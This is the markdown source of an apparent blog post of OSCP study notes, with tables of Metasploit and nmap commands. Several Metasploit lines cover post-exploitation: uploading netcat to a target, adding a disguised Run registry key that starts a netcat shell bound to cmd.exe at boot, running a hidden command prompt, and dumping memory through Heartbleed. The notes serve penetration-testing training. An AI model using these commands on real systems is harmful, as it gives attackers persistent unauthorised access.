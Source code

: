 ```yaml
---
categories:
  - blog
title: OSCP Notes
subtitle: Playbook for basic OSCP stuff
tags: [oscp, offensive]
comments: false
header:
  teaser: /img/oscp/oscp.jpg
---
```



# Introduction
A tabled summary of common commands used

# Metasploit

Command | Description
-------|--------
`Search Exploit <syntax>` | Search Payload|Exploit in metasploit
`Use exploit <name>` | use an exploit on metasploit
`Show Options` | shows exploit options
`Run` OR `Exploit` |
Show `Modules` OR `Payload` |
`Upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32` | Uploads the netcat executable from the local machine to the target
`Reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run` | Shows the registry key value
`Reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v VBoxTools -d 'C:\windows\system32\nc.exe -Ldp 455 -e cmd.exe ` | Sets a Registry Key Value
`Execute -f cmd -I H` | Execute a hidden cmd prompt
`Use auxillary/scanner/ssl/openssl_heartbleed` | Use heartbleed to dump memory
`Use auxillary/scanner/http/options` | Shows basic HTTP Methods

[*Back to table of contents*](#)

# nmap

Command | Description
-------|--------
`nmap -v -sS <Target>` | Basic Portscan of a target with a firewall
`nmap -v -sV  <Target>` | Fingerprints a target Verbose
`nmap -p 1-65535 192.168.168.0/25`| Scans a network for open ports in a range
`nmap -p 22 <target>` | Scans a single port
`nmap -F `target | Fast (Most common ports) scan 
`nmap -p-` target | Slow scans all ports
`nmap -sT` | TCP Conect Scan
`nmap -sS` | Syn Scan (Default)
`nmap -sU` | UDP Scan
`nmap -Pn -F` | Fast Scans a network with a standard ping, if there is no reponse then it goes to the next host
`nmap -A `| Detects OS and Service
`nmap -O `| Detects OS
`nmap -sV --script=smb* <target>` | Uses a script to scan the network, you can locate them by `locate nse | grep script` and print help by `--script-help=$scriptname `(Useful scripts http-title http-headers http-enum `ssl-heartbleed)
